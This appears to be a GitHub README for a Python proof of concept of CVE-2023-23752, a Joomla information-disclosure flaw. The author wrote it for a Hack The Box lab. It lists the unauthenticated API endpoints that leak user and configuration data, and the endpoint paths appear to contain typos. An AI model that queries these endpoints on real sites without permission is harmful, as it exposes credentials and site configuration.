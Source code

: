 # CVE-2023-23752 - Joomla Information Disclosure

Yo, I needed to use this exploit in a HTB machine and the only other PoC I could find was written in ruby...

I didn't wanna mess with the ruby dependancies so I just re-wrote it in python "real quick".

---
This is basically just a parser for the JSON returned by the open API endpoints, this can be replicated easily with CURL or a web browser by hitting the following endpoints:

#### User Info

`/api/index.php/v1/config/applicaton?public=true`

#### Config Info

`/api/index.php/v1/config/application?public=true"`

## Usage
`python3 CVE-2023-23752.py -t <target_url>`

---


# License
GPL v3.0 - as all good software should be

Remember - don't be a skid :)
